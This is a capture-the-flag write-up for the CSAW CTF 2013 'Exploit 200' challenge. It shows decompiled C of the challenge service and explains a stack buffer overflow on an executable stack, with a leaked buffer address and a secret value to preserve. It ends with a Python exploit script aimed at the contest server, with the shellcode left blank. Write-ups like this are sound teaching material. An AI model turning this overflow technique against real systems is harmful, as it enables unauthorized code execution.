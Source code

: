 ```yaml
---
layout: post
title:  "CSAW CTF 2013 - Exploit 200 (Exploitation 2)"
---
```


Source were not provided, but with IDA and Hex-Ray we can get the following pseudocode:

```c

int __cdecl handle(int fd)
{
  int result; // eax@1
  unsigned int v2; // eax@1
  char buf; // [sp+1Ch] [bp-80Ch]@1
  char v4; // [sp+81Bh] [bp-Dh]@1
  int v5; // [sp+81Ch] [bp-Ch]@1

  v5 = 0;
  memset(&buf, 0, 0x800u);
  v2 = time(0);
  srand(v2);
  secret = rand();
  v5 = secret;
  *(_DWORD *)&buf = &buf;
  send(fd, &buf, 4u, 0);
  send(fd, &v5, 4u, 0);
  send(
    fd,
    "Welcome to CSAW CTF.  Exploitation 2 will be a little harder this year.  Insert your exploit here:",
    0x63u,
    0);
  recv(fd, &buf, 0x1000u, 0);
  v4 = 0;
  result = secret;
  if ( v5 != secret )
  {
    close(fd);
    exit(0);
  }
  return result;
}

```

First thing to note is that `recv` read `0x1000` bytes of data into a buffer of `0x800`. We can use this to rewrite stack data. The overflow is big enough to rewrite the return address.

By running `readelf -l exploit2` we get `GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4`, so the stack is executable (E flag in RWE).

All we need to do is to send our favorite shellcode and rewrite the return adresse to jump on our shellcode at the buffer location. The buffer location is sent by the application (`send(fd, &buf, 4u, 0);`).

The last thing to note is the `secret` variable. It is use to hold a random number and its value is copied into `v5`. If the value of `v5` changed after we send our payload, the program exit. Therefor, we need to keep the same value when we rewrite the stack since `v5` is before the buffer. Luckily, the secret value is sent before `recv`, so we can write it in our payload.

Our final exploit code was the following:

```python

shellcode = ''
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('128.238.66.212', 31338))

buf_size = 0x800
buf_addr = s.recv(4)
secret = s.recv(4)
s.recv(1024)

payload = shellcode + '\x90' * (buf_size-len(shellcode)) + secret + '\x90' * 12 + buf_addr

s.send(payload)

```
